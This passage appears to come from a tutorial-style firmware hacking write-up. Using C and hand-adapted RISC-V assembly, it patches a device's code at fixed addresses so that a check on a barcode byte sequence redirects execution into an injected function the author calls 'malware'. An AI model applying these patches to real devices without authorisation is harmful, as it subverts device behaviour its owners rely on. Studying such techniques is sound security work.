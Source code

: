 Once again, [describe what you want in C](https://godbolt.org/z/e5y6Xe) and take a look at the RISC-V 32-bit assembly:
```
void exploit() {
// 2. check the barcode
    char *barcode_magic_char = (char *)0xc010aaed;
    if (barcode_magic_char[0] == 'F' && barcode_magic_char[1] == 'F'){
        int *jump_to_success = (int *)0xc0025c04;
    } else {
        int *jump_to_failure = (int *)0xc0025aac;
    }
}
```

Sidenote: the compiler produces some extra `lw` / `sw` because it also smashes the `a0` register before the jump-- we're going to write slightly different assembly that uses more registers to avoid those loads & stores. That's why the assembly below doesn't match what you see in godbolt exactly.

Here's the adapted assembly:

```
    # load *barcode_magic_char into a0
    lui     a0, 786699
    addi    a0, a0, -1299 # 0xc010aaed;

    # Check for the first 'F'
    lbu     a4, 0(a0) # load byte unsigned @ a0 into a4
    addi    a1, zero, 70 # 70 is the ascii code for "F"
    bne     a4, a1, .FAILURE

    # Check for the next 'F'
    lbu     a4, 1(a0) # load byte unsigned @ a0, offset 1, into a4
    bne     a4, a1, .FAILURE

    # jump to the "this matched our check" location
    lui     a0, 786470
    addi    a0, a0, -1020 # 0xc0025c04
    jr   a0

.FAILURE:
    # jump to the "this failed to matched our check" location
    lui     a0, 786470
    addi    a0, a0, -1364 # 0xc0025aac
    jr   a0
```


### All together now

Finally, let's add a `.DONE` label that the initialization code from step 1 can jump to, to avoid checking the barcode when we load the `malware` function.

All together, it should look like this:

```
    # code to patch in our jump goes here; corresponded to this C:
    #    int *patch_point = (int *)0xc0025aa0;
    #    patch_point[0] = 0xc001d537; // lui a0,0xc001d
    #    patch_point[1] = 0x50050513; // addi a0,a0,1280 # 0xc001d500
    #    patch_point[2] = 0x00050067; // jr a0
    lui     a0, 786470
    addi    a0, a0, -1376
    sw      a0, -12(s0)
    lw      a0, -12(s0)
    lui     a1, 786461
    addi    a1, a1, 1335
    sw      a1, 0(a0)
```